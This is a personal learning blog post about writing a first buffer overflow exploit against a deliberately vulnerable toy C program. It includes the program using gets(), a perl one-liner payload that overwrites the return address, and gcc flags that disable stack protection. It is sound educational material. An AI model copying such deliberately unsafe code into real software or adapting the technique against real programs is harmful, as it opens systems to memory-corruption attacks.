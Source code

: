 ```yaml
---
layout: post
title: "Day 17: How to write a buffer overflow exploit"
date: 2013-10-28 23:08
comments: true
categories: hackerschool
---
```


I've declared this week to be the week of networks & security.

Today I started reading the excellent book 
[Hacking: The Art of Exploitation](http://nostarch.com/hacking2.htm)
by Jon Erickson. I learned a lot about how different parts and how MAC address
spoofing actually works.

But! Buffer overflows! I worked with Travis and Daphne today and we made one
work!

Okay. Here is a program with a vulnerability, made extra easy to exploit:

~~~
#include <stdio.h>
#include <string.h>

char password[] = "super_secret";

void foo(void) {
  printf("You hacked me! Here is the secret password: %s\n", password);
  fflush(stdout);
}

int main(int argc, char *argv[]) {
  char buf[4];

  printf("Here is the address of foo: %p\nWhat is your hacking text? ", foo);
  fflush(stdout);

  gets(buf);

  printf("You entered: %s\n", buf);
  fflush(stdout);

  return 0;
}
~~~

The idea is that we're going to put a string, then make the program jump to
the address of `foo` instead of returning. I couldn't get this to work on my
64-bit machine for some reason, so I told it to be 32-bit instead and it
worked. <s>If you know why please tell me!</s> <small>(*Edit:* Figured this out! Turns out I
just needed to pad the address with 0s until it was 64 bits and then
experiment with offsets.)</small>

~~~
$ gcc -m32 test.c -o test
$ perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' | ./test
Here is the address of foo: 0x80484b4
What is your hacking text? You entered: aaaa���
*** stack smashing detected ***: ./a.out terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x45)[0xf7663eb5]
/lib/i386-linux-gnu/libc.so.6(+0x104e6a)[0xf7663e6a]
./a.out[0x8048561]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xf75784d3]
./a.out[0x8048421]
~~~

Oh look! It turns out that gcc already knows about this exploit and has special built-in protections! We can disable those, though...

~~~
$ gcc -fno-stack-protector -m32 test.c -o test
$ perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' | ./test
Here is the address of foo: 0x8048464
What is your hacking text? You entered: aaaadddd�
You hacked me! Here is the secret password: super_secret
[1]    26357 done                              perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' |
 
       26358 segmentation fault (core dumped)  ./a.out
~~~

BOOM. We win!

What happened here? At the end of the stack, there's the address that the
function needs to jump back to when it returns. Since `gets` doesn't know how
many characters to read into buf, it keeps reading into the stack until the
string is over and writes over that address. We don't know exactly where the
address is, so we keep writing it over and over and over again until it works.

Also! Notice how we had to reverse the order of the memory address to be
`"\x64\x84\x04\x08"` instead of `\x08\x04\x84\x64`. This is because memory is
laid out in a little-endian way. "Little-endian" basically means "backwards".
Intel architectures are always like this. See [wikipedia](http://en.wikipedia.org/wiki/Endianness) for more on endianness. 

<s>There are smarter ways to deal with this issue of not knowing where the end of
the stack is ("NOP sleds"!), but this one is simpler and so it is what we did.</s>

Filippo pointed out to me that NOP sleds are actually something you use in
shellcode when you're not sure where the program execution will start. In this
case I think you actually just have to figure out where the return address is.
I think you can also use gdb or objdump to discover the layout of the stack,
but I don't know how to do that yet.
